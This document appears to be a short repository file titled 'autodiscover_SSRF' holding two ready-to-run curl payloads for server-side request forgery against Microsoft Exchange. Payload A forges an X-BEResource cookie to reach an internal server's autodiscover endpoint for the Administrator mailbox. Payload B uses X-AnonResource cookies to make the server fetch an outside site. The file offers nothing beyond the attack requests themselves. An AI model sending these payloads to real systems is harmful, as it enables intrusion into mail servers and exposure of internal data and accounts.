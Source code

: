 # autodiscover_SSRF

Payload A

curl -i -s -k -X $'POST' \
    -H $'Host: externaldomain.local' -H $'Content-Length: 370' -H $'Content-Type: text/xml' \
    -b $'X-BEResource=internalservername.domain.local/autodiscover/autodiscover.xml#~1' \
    --data-binary $'<?xml version=\"1.0\" encoding=\"utf-8\"?><Autodiscover xmlns=\"http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006\"><Request><EMailAddress>Administrator@externaldomain.local</EMailAddress><AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema></Request></Autodiscover>' \
    $'https://pwnstar.pwndefend.com/ecp/favicon.ico'


Payload B

curl -i -s -k -X $'GET' \
    -H $'Host: localhost' \
    -b $'X-AnonResource-Backend=www.bbc.co.uk/#~1; X-AnonResource=true' \
    $'https://pwnstar.pwndefend.com/owa/auth/favicon.ico'
